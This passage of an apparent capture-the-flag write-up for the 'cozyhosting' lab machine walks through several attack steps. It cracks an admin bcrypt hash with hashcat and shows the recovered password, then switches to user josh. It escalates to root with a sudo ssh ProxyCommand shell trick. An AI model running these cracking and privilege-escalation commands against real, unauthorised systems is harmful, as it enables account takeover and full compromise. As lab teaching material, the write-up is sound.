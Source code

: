 ```bash
```

The `users` table contains the hash of the `admin` account. We can copy that into a file locally (`admin_hash`) and pass it to [`hashcat`](../../../tools/tools/passwords/hashcat.md).

```bash
# Writing the hash into a file
nano admin_hash
# Identifying the hash type
hashcat admin_hash /usr/share/wordlists/rockyou
# Cracking the hash
hashcat -m3200 admin_hash /usr/share/wordlists/rockyou
# Displaying the results
$ hashcat -m3200 admin_hash /usr/share/wordlists/rockyou --show
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

### Permissions

The cozyhosting machine has only 2 users: `root` and `josh`. Trying the password for the former does not work, but it does for the latter which has some interesting `sudo` permissions (Figure 13).&#x20;

```bash
# Switching users to josh
su josh
# Changing to its home directory
cd ~
# Listing the directory's content
ls -l
# Reading the user flag
cat user.txt
# Checking its sudo permissions
sudo -l
```

<figure><img src="../../../.gitbook/assets/cozyhosting_josh.png" alt=""><figcaption><p>Figure 13: Switching user to <code>josh</code> and checking its permissions.</p></figcaption></figure>

Checking GTFOBins, as always when we find a binary that can be executed with elevated permissions, we find out that [there is a way](https://gtfobins.github.io/gtfobins/ssh/#sudo) to privilege escalate via the `sudo` and `ssh` combination.

```bash
josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# cat /root/root.txt
7e3<REDACTED>4de
```

[^1]: Database Management System

[^2]: Database Admin

[^3]: Living off The Land

[^4]: Command Injection
